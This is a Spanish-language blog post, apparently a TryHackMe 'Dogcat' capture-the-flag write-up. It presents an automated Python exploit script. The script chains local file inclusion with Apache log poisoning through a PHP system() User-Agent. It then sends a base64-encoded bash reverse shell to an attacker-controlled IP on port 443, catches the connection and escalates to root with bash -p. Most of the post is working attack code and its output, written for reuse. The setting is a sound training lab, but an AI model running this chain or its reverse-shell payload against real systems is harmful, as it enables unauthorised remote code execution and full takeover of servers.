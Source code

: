 ```yaml
---
layout: single
title: Dogcat (AutoPWM) - Try Hack Me
excerpt: "En esta máquina se abusa de un local file inclusion para efectuar un log poisoning logrando RCE luego de modificar el user agent inyectando instrucciones maliciosas, pero en este post te muestro un pequeño script autopwm hecho en python, el cual nos automatiza la intrusión y escalada de privilegios para convertirnos en root"
date: 2021-08-29
classes: wide
header:
  teaser: /assets/images/thm-autopwm-dogcat/Dogcat.png
  teaser_home_page: true
  icon: /assets/images/tryhackme.png
categories:
  - tryhackme
  - autopwm
  - scripting
tags:
  - python scripting
  - autopwm
  - web
  - lfi
  - log poisoning
  - user agent
---
```


<p align="center">
<img src="/assets/images/thm-autopwm-dogcat/img_header.png">
</p>

Esta es una máquina de dificultad media bastante sencilla, así que quise hacer un script autopwm que automatizara tanto la intrusión como la escalada de privilegios

Antes de usarlo se debe de ejecutar el siguite comando, para luego introducir el otput en el script:

```bash
~$> echo "/bin/bash -c 'bash -i >& /dev/tcp/[TU_IP]/443 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjkuMjQyLjIxNy80NDMgMD4mMScK
```

Se modifica el payload y la url:

```python
#!/usr/bin/python3

import signal, time
from pwn import *

def def_handler(sig, frame):
	print("\n[!] Exiting...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

lport = 443
payload = 'echo "[CADENA_EN_BASE64]" | base64 -d | bash' # <- CHANGE THIS
url = 'http://[MACHINE_IP]/?view=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=%s' % (payload)

def makeRequest():
	headers = {
	    'User-Agent': '<?php system($_GET[\'cmd\']); ?>'
	}

	r = requests.get(url, headers=headers)

if __name__ == '__main__':
	try:
		log.info("Gaining shell as www-data user")
		time.sleep(1)
		threading.Thread(target=makeRequest).start()
	except Exception as e:
		log.failure(str(e))

	shell = listen(lport, timeout=20).wait_for_connection()

	if shell.sock is None:
		log.failure("Cudn't connect")
	else:
		log.info("Obteining root")
		time.sleep(1)
		shell.sendline("export TERM=xterm; export SHELL=bash; /usr/bin/env /bin/bash -p")
		shell.interactive()

```

Y una vez ejecutado el script obtenemos shell como root:

```bash
~$>./Dogcat-AutoPWM.py
```
```bash
[*] Gaining shell as www-data user
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.52.7 on port 35786
[*] Obteining root
[*] Switching to interactive mode
$
```
```bash
$ whoami
root
```
